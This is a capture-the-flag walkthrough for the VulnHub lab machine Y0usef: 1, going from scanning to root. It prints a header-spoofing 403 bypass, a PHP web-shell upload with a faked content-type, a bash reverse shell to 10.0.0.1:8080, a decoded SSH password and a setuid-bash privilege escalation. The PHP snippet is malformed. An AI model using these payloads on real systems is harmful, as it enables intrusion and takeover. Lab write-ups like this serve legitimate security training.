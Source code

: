 

# Y0usef: 1 Walkthrough 

**VulnHub Link:** [Y0usef: 1](https://www.vulnhub.com/entry/y0usef-1,624/)
**Difficulty:** Easy
**Release Date:** 10 Dec 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.172
```

## 2.Web Enumeration
```bash
wfuzz -c -u 'http://192.168.100.172/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 404
```

we found nothing from webpage and only access to index.php

then we download bypass 403 
```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Y0usef%3A%201/bypass-403.sh
chmod +x bypass-403.sh
./bypass-403.sh http://192.168.100.172 adminstration
```

we found out that X-Forwarded-For: 127.0.0.1:80

opening burpsuite

in browser , enter url --> http://192.168.100.172/adminstration send request to repeater

add this to request --> X-Forwarded-For: 127.0.0.1:80

and you will see that username and password required

again send request to repeater --> username=admin&password=admin (again X-Forwarded-For: 127.0.0.1:80)

and you will see that you access admin page

from upload page , we found out we cant upload php file

send request to repeater ---> change content-type to image/gif

content --> 
```php
<?php
    echo '<pre>';
    passtrhu(system($_GET['cmd']);
    echo '</pre>';
?>
```
and you will successfully upload php file 

in response copy that and new repeater tab , http://192.168.100.172/adminstration/upload/files/<your filename>?cmd=id

we encode bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

we write to cmd == bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.1%2F8080%200%3E%261%27 

don't forget change ip and port number

and we get www-data shell

we find user.txt and 

```bash
echo "c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=" | base64 -d
```

we found yousef password 

```bash
ssh yousef@192.168.100.172 (password yousef123)
```

we found out that from 
```bash
sudo -l
```

ALL ALL:ALL command on yousef

```bash
chmod u+s /bin/bash
/bin/bash -p
cat /root/root.txt
```

and BOOOM..! We are ROOT and ROOT flag captured.
